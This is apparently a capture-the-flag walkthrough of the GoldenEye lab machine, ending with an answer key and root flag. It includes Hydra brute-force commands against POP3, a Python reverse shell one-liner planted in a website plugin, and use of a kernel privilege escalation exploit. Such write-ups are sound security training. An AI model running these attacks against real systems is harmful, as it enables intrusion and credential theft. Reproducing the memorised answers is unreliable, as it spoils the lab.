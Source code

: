 # **Golden-Eye Writeup by Brandon Gerber**

---

## **Task 1: Intro and Enumeration**

### **1.1 Nmap Scan**

I began by scanning the target machine using `nmap` to identify open ports:

`nmap -n -v -sT -p- -T5 <IP>`




This revealed **4 open ports**.

### **1.2 Source Code Analysis**

Next, I checked the **source code of the website** and found some comments:

// contacting a user named boris // left encoded password // mentioned another person named Natalya




Based on this, I assumed "boris" was a **username**, and I found an encoded password in the comments:  
` &#73;&#110;&#118;&#105;&#110;&#99;&#105;&#98;&#108;&#101;&#72;&#97;&#99;&#107;&#51;&#114; `

### **1.3 Decoding Password**

Using an HTML decoder, I decoded it to: **InvincibleHack3r**.  
I realized I could have just used `dcode<pw>`.

---

## **Task 2: It’s Mail Time**

### **2.1 Login via Telnet**

I tried logging in via **telnet** to the **POP3 service on port 55007**, but the credentials failed. The next hint was to use **Hydra** to crack the password:

hydra -l boris -P <path_to_password_list> <IP> -s 55007 pop3



This successfully found the password:  
**Password: secret1!**

### **2.2 Retrieving Emails**

I then logged in via telnet:

`telnet <IP> 55007`
user: boris 
pass: secret1!




After logging in, I listed and retrieved the emails using `retr <email num>`, revealing another username, **"Xenia."**

### **2.3 Cracking Xenia’s Password**

Using Hydra again, I cracked Xenia’s password:

`hydra -l Xenia -P <path_to_password_list> <IP> -s 55007 pop3`



The password was **bird**. After logging into her account, I found her new password: **RCP90rulez!**.

### **2.4 Accessing the Website**

This led me to the next hint regarding the **severnaya-station.com** website. I added it to my `/etc/hosts` file to access it:

`nano /etc/hosts`

Add the line
`<IP> severnaya-station.com`




I visited **http://severnaya-station.com/gnocertdir/** and used Xenia's credentials to log in:

user: Xenia pass: RCP90rulez!




Under **"My Profile,"** I found a message from **Dr. Doak** revealing his creds:

`hydra -l Doak -P <path_to_wordlist> <IP> -s 55007 pop3`




Password: **goat**

Using telnet again, I found his password in an email: **4England!**

---

## **Task 3: Gaining Access**

### **3.1 Logging in with Dr. Doak's Credentials**

Logging in with Dr. Doak's credentials (`dr_doak`, `4England!`), I explored his private files and discovered a file named **s3cret.txt**, which mentioned the location of an image at `/dir007key/for-007.jpg`. I downloaded the image using `wget` and extracted hidden information with `exiftool`. Inside the description field, I found a **Base64 string**:

eFdpbnRlckE50TV4IQ==




Decoded, it revealed: **xWinter1995x!**

user: admin 
pass: xWinter1995x!




---

## **Task 4: Exploitation**

### **4.1 Creating a Reverse Shell**

I created a **reverse shell** using Python, found this on [pentestmonkey cheat sheets](https://pentestmonkey.net/):

` python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>", <Port>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh"])' `




I inserted this script into the spell check plugin on the website, then started a listener using `pwncat`:

`pwncat --listen -p 9999`




This granted me a shell on the system. The kernel version was **3.13.0-32-generic**, and I found an **overlayfs privilege escalation exploit** (https://www.exploit-db.com/exploits/37292).

### **4.2 Compiling and Executing the Exploit**

I compiled and executed the exploit:

upload exploit.c /tmp 
cd /tmp 
cc exploit.c -o exploit 
run the exploit
./exploit




This gave me **root access**. I navigated to the `/root` directory and found the final flag:

cat flag.txt




**Root flag: 568628e0d993b1973adc718237da6e93**

---

## **ANSWERS**

---

### **Task 1:**

- **How many ports are open?**  
  **Answer:** 4

- **Who needs to update their default password?**  
  **Answer:** boris

- **What's their password?**  
  **Answer:** InvincibleHack3r

---

### **Task 2:**

- **What's their new password?**  
  **Answer:** secret1!

- **What services is configured to use port 55007?**  
  **Answer:** telnet

- **What user can break Boris' codes?**  
  **Answer:** natalya

- **What user can you login as on the severnaya-station.com site?**  
  **Answer:** xenia

- **What was Doak's password?**  
  **Answer:** goat

- **What's Dr. Doak's password?**  
  **Answer:** 4England!

---

### **Task 3:**

- **What's the kernel version?**  
  **Answer:** 3.13.0-32-generic

- **What is the root flag?**  
  **Answer:** 568628e0d993b1973adc718237da6e93
